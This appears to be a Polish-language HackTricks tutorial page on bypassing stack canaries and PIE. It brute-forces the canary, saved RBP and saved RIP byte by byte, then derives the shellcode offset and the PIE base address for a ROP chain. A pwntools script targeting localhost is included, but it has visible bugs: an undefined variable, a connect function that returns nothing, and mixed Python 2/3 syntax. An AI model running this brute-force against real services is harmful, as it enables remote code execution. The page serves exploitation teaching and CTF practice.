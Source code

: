 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Jeśli masz do czynienia z binarnym plikiem chronionym przez canary i PIE (Position Independent Executable), prawdopodobnie musisz znaleźć sposób na ich obejście.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Zauważ, że **`checksec`** może nie wykryć, że plik binarny jest chroniony przez canary, jeśli został skompilowany statycznie i nie jest w stanie zidentyfikować funkcji.\
Jednak możesz to zauważyć ręcznie, jeśli odkryjesz, że wartość jest zapisywana na stosie na początku wywołania funkcji i ta wartość jest sprawdzana przed wyjściem.
{% endhint %}

## Brute-Force Addresses

Aby **obejść PIE**, musisz **wyciekować jakiś adres**. A jeśli plik binarny nie wycieka żadnych adresów, najlepiej jest **brute-forcować RBP i RIP zapisane na stosie** w podatnej funkcji.\
Na przykład, jeśli plik binarny jest chroniony zarówno przez **canary**, jak i **PIE**, możesz zacząć brute-forcować canary, a następnie **następne** 8 bajtów (x64) będą zapisanym **RBP**, a **następne** 8 bajtów będą zapisanym **RIP.**

{% hint style="success" %}
Zakłada się, że adres powrotu wewnątrz stosu należy do głównego kodu binarnego, co, jeśli luka znajduje się w kodzie binarnym, zazwyczaj będzie miało miejsce.
{% endhint %}

Aby brute-forcować RBP i RIP z pliku binarnego, możesz ustalić, że poprawnie odgadnięty bajt jest poprawny, jeśli program coś wyświetli lub po prostu nie zawiesza się. **Ta sama funkcja** co podana do brute-forcowania canary może być użyta do brute-forcowania RBP i RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Ostatnią rzeczą, której potrzebujesz, aby pokonać PIE, jest obliczenie **przydatnych adresów z wyciekłych** adresów: **RBP** i **RIP**.

Z **RBP** możesz obliczyć **gdzie zapisujesz swój shell w stosie**. Może to być bardzo przydatne, aby wiedzieć, gdzie zamierzasz zapisać ciąg _"/bin/sh\x00"_ w stosie. Aby obliczyć odległość między wyciekłym RBP a twoim shellcode, możesz po prostu ustawić **punkt przerwania po wycieku RBP** i sprawdzić **gdzie znajduje się twój shellcode**, a następnie możesz obliczyć odległość między shellcode a RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Z **RIP** możesz obliczyć **adres bazowy binarnego pliku PIE**, który będzie potrzebny do stworzenia **ważnego łańcucha ROP**.\
Aby obliczyć adres bazowy, wystarczy wykonać `objdump -d vunbinary` i sprawdzić ostatnie adresy w disasemblerze:

![](<../../../.gitbook/assets/image (479).png>)

W tym przykładzie widać, że potrzebne jest tylko **1,5 bajta**, aby zlokalizować cały kod, więc adres bazowy w tej sytuacji będzie **wyciekłym RIP, ale kończącym się na "000"**. Na przykład, jeśli wyciekł `0x562002970ecf`, adres bazowy to `0x562002970000`.
```python
elf.address = RIP - (RIP & 0xfff)
```
## Ulepszenia

Zgodnie z [**niektórymi obserwacjami z tego posta**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), możliwe jest, że podczas wycieku wartości RBP i RIP, serwer nie ulegnie awarii przy niektórych wartościach, które nie są poprawne, a skrypt BF pomyśli, że otrzymał dobre. Dzieje się tak, ponieważ **niektóre adresy po prostu nie spowodują awarii, nawet jeśli nie są dokładnie poprawne**.

Zgodnie z tym wpisem na blogu zaleca się wprowadzenie krótkiego opóźnienia między żądaniami do serwera.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
